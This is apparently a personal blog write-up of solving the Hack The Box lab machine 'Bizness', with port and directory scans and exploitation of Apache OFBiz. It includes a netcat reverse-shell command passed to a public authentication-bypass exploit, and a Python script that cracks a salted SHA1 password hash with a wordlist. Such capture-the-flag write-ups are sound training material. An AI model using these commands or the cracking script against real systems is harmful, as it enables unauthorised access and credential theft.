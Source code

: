 ```yaml
---
tagline: bizness
title: Bizness - My First HTB machine
description: My first HTB Machine and how I solved it
banner: /blog/biznessbanner.jpeg/
banner_alt: Banner of HTB
date: '2024-02-04'
---
```


## Starting up 🚀

I started by installing my ovpn files and running ```sudo openvpn /Users/vipin/Downloads/lab_qvipin.ovpn```. From there you should be ready to start your machine.

## Scanning for ports

- The first step typically for machines is running a **nmap** scan.

```bash:Terminal

❯ sudo nmap -sV 10.10.11.252
Password:
Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-04 10:14 EST
Nmap scan report for 10.10.11.252
Host is up (0.054s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
80/tcp  open  http     nginx 1.18.0
443/tcp open  ssl/http nginx 1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.64 seconds
```

- With this port scan we now know that 22, 80, & 443 is open.

## Accessing the website

- Entering 10.10.11.252 into our browser will give us a *ERR_CONNECTION_TIMED_OUT* error so to fix this running ```echo "TARGET_IP domain.htb" | sudo tee -a /etc/hosts``` and replacing the **TARGET_IP** with our IP and **domain.htb** with our domain allows us to access the website.

## Finding Vulnerabilities

- Upon accessing the website we see a normal website.

![Image showing the main page of bizness.htb](/blog/biznesspics/biznesspage1.png 'Fig.1')

- Towards the bottom we see the website is made with **Apache OFBiz**

![Image showing apache ofbiz](/blog/biznesspics/ApacheOFBIZ1.png 'Fig.2')

- Searching for vulnerabilities associated with **Apache OFBiz** we find [this Github repo](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass).

## Directory Busting

- To look for some directories in the site, I will be using Dirsearch

```bash:Terminal
❯ dirsearch -u https://bizness.htb/ --exclude-status 404

  _|. _ _  _  _  _ _|_    v0.4.3.post1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25
Wordlist size: 11460

Output File: /Users/vipin/reports/https_bizness.htb/__24-02-09_23-38-26.txt

Target: https://bizness.htb/

[23:38:26] Starting:
[23:38:30] 400 -  795B  - /\..\..\..\..\..\..\..\..\..\etc\passwd
[23:38:31] 400 -  795B  - /a%5c.aspx
[23:38:31] 302 -    0B  - /accounting  ->  https://bizness.htb/accounting/
[23:38:42] 302 -    0B  - /catalog  ->  https://bizness.htb/catalog/
[23:38:43] 302 -    0B  - /common  ->  https://bizness.htb/common/
[23:38:44] 302 -    0B  - /content  ->  https://bizness.htb/content/
[23:38:44] 302 -    0B  - /content/  ->  https://bizness.htb/content/control/main
[23:38:44] 302 -    0B  - /content/debug.log  ->  https://bizness.htb/content/control/main
[23:38:44] 200 -   34KB - /control/
[23:38:44] 200 -   34KB - /control
[23:38:44] 200 -   11KB - /control/login
[23:38:46] 302 -    0B  - /error  ->  https://bizness.htb/error/
[23:38:46] 302 -    0B  - /example  ->  https://bizness.htb/example/
[23:38:48] 302 -    0B  - /images  ->  https://bizness.htb/images/
[23:38:49] 302 -    0B  - /index.jsp  ->  https://bizness.htb/control/main
[23:38:59] 200 -   21B  - /solr/admin/
[23:38:59] 200 -   21B  - /solr/admin/file/?file=solrconfig.xml
[23:38:59] 302 -    0B  - /solr/  ->  https://bizness.htb/solr/control/checkLogin/

Task Completed
```

## Getting the User flag

- Looking inside accounting, we find a login page, but that seems to not matter right now.

![Image showing the login page of bizness.htb](/blog/biznesspics/loginbizness1.png 'Fig.2')

- Let's use that [POS repo](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass) we found in the beginning..

```bash:Terminal 
└─$ python3 exploit.py --url https://bizness.htb --cmd "nc 10.10.14.35 6969 -e /bin/bash"
[+] Generating payload...
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[+] Payload generated successfully.
[+] Sending malicious serialized payload...
[+] The request has been successfully sent. Check the result of the command.


### On another tab I am listening on port 6969

└─$ nc -lvnp 6969
listening on [any] 6969 ...
connect to [10.10.14.35] from (UNKNOWN) [10.10.11.252] 59388

``` 

- And now we have the user flag!

![Image showing the user flag](/blog/biznesspics/userflag1.png 'Fig.3')

## Getting the Root flag

- This is the most difficult part as we need to look for the Hash with the Salt, and this single handedly took almost an hour for this.

- I found the password in *c54d0.dat* 

![Image showing the password](/blog/biznesspics/rootpassword1.png 'Fig.4')

- Using the Python script below, I cracked the password

```python:Notepad

import hashlib
import base64
import os
from tqdm import tqdm

class PasswordEncryptor:
    def __init__(self, hash_type="SHA", pbkdf2_iterations=10000):
       
        self.hash_type = hash_type
        self.pbkdf2_iterations = pbkdf2_iterations

    def crypt_bytes(self, salt, value):

        if not salt:
            salt = base64.urlsafe_b64encode(os.urandom(16)).decode('utf-8')
        hash_obj = hashlib.new(self.hash_type)
        hash_obj.update(salt.encode('utf-8'))
        hash_obj.update(value)
        hashed_bytes = hash_obj.digest()
        result = f"${self.hash_type}${salt}${base64.urlsafe_b64encode(hashed_bytes).decode('utf-8').replace('+', '.')}"
        return result

    def get_crypted_bytes(self, salt, value):
      
        try:
            hash_obj = hashlib.new(self.hash_type)
            hash_obj.update(salt.encode('utf-8'))
            hash_obj.update(value)
            hashed_bytes = hash_obj.digest()
            return base64.urlsafe_b64encode(hashed_bytes).decode('utf-8').replace('+', '.')
        except hashlib.NoSuchAlgorithmException as e:
            raise Exception(f"Error while computing hash of type {self.hash_type}: {e}")

hash_type = "SHA1"
salt = "d"
search = "$SHA1$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I="
wordlist = '/Users/vipin/tech/CTFs/wordlists/rockyou.txt'

encryptor = PasswordEncryptor(hash_type)

total_lines = sum(1 for _ in open(wordlist, 'r', encoding='latin-1'))

with open(wordlist, 'r', encoding='latin-1') as password_list:
    for password in tqdm(password_list, total=total_lines, desc="Processing"):
        value = password.strip()
        
        hashed_password = encryptor.crypt_bytes(salt, value.encode('utf-8'))
        
        if hashed_password == search:
            print(f'Found Password:{value}, hash:{hashed_password}')
            break  

```

![Image showing the cracked password](/blog/biznesspics/crackedpassword1.png 'Fig.5')

- And Voila!!!

![Image showing that i pwned it](/blog/biznesspics/biznesspwned.png 'Fig.6')










